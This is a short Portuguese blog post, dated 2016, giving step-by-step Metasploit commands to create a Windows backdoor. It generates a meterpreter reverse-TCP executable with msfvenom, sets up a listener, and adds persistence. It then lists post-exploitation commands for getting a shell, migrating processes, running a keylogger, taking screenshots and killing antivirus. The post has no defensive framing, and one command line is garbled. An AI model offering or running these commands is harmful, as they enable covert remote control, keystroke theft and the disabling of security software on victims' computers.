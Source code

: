 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-12T14:54:44.000Z
---
```

<img src='/images/fulls/back.jpg'>

-Comandos para criar a backdoor:

```msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe```

-Comandos para configurar o modo Listening:
```

msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost (Seu IP)

set lport 443

```
exploit

-Comando manutenção de acesso:

```run persistence -A -X -i 60 -p 443 -f (Seu IP)```

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
```meterpreter > help```

Para finalizar a sessão e sair do Meterpreter.
```meterpreter > exit```

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades, 
para usar um modulo auxiliar por exemplo.
```metrpreter > background```

Migrar para outro processo:
```meterpreter > run migrate -f```

Obter shell:
```meterpreter > shell```

Executar um programa:
```execute -f calc.exe```

Keylogger:
 
 ```
meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER
 ```
Captura de tela.

```meterpreter > screenshot```

Finalizar processo de antivirus.

```meterpreter > run killav```

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


